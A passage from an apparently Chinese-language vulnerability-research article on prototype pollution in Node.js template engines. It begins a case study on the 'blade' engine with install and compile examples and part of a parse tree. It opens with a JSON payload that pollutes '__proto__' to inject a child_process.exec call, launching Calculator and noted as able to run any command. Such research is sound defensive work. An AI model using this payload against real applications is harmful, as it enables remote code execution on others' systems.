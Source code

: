 ```plain
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
            "line":"process.mainModule.require('child_process').exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')" // 可以执行任意命令
        }
}
```

接下来实际分析一个模版引擎的漏洞挖掘案例：

## blade漏洞挖掘实例

除去上文介绍的三种模版引擎，`blade` 也是常用的一种，安装方法

```plain
npm install blade
```

编写一个示例：

```plain
const blade = require('blade');

const template = `html
    head
        title Blade
    body
        #nav
            ul
                - for(var i in nav)
                    li
                        a(href=nav[i])= i
        #content.center
            h1 Blade is cool`;
blade.compile(template, {'debug': true}, function(err, tmpl) {
    console.log(err);
});
```

正常得到的语法树为：

```plain
{
  doctypes: [],
  nodes: [
    {
      type: 'tag',
      name: 'html',
      id: null,
      classes: [],
      attributes: {},
      children: [
        {
          type: 'tag',
          name: 'head',
          id: null,
          classes: [],
          attributes: {},
          children: [
            {
              type: 'tag',
              name: 'title',
              id: null,
              classes: [],
```